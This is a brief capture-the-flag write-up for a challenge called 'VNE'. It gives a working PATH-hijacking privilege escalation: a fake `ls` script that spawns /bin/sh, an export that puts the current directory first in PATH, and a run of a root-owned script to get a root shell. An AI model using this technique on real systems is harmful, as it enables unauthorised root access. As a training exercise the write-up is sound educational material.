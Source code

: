 # VNE
Points: 200

This challenge was simple: you are given a ssh shell that contains a script which runs as root.
The script runs `ls` on a user supplied directory.

Write a simple bash script called `ls` in the home directory:
```
#!/bin/sh

/bin/sh
```
Then rewrite the `PATH` environment variable to search the current directory first:
```
export PATH=".:$PATH"
```
Finally execute the given script to get a root shell and leak the flag.